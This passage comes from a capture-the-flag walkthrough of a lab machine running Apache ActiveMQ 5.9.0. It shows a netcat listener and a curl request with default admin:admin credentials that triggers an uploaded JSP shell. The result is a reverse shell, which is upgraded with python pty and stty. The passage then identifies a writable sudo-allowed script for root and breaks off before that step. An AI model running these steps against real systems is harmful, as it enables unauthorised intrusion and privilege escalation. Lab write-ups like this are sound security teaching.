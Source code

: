 ```
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```
Now the shell is ready to be executed, but first I need a listener:
```
$ nc -nvlp 1234
```
let's turn on the shell (with curl of course):
```
$ curl -u 'admin:admin' -v http://broker.thm:8161/admin/shell.jsp
```
We have shell!. 
```
─$ nc -nvlp 1234            
listening on [any] 1234 ...
connect to [10.11.25.15] from (UNKNOWN) [10.10.2.229] 46012
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
groups
activemq
python3 -c 'import pty;pty.spawn("/bin/bash")'
activemq@activemq:/opt/apache-activemq-5.9.0$ export TERM=xterm
export TERM=xterm
activemq@activemq:/opt/apache-activemq-5.9.0$ ^Z
zsh: suspended  nc -nvlp 1234
                                                                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/broker]
└─$ stty raw -echo;fg                                                                                                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 1234

activemq@activemq:/opt/apache-activemq-5.9.0$ ls
LICENSE  README.txt		 bin	  conf	flag.txt  start.sh	tmp
NOTICE	 activemq-all-5.9.0.jar  chat.py  data	lib	  subscribe.py	webapps
activemq@activemq:/opt/apache-activemq-5.9.0$ 

```
a simple cat flag.txt and *the answer for question 4* is found. 


# Privelege escalation
Next up is getting root. The first thing I usually do in these THM rooms is to check sudo
```
$ sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```
basically we are allowed to run some python script as root 
I checked the permissions on that script:
```
$ ls -lah /opt/apache-activemq-5.9.0/subscribe.py
-rw-rw-r-- 1 activemq activemq 768 Dec 25 17:50 /opt/apache-activemq-5.9.0/subscribe.py
```
we both own and have access to the file - this makes it almost too easy:
```
```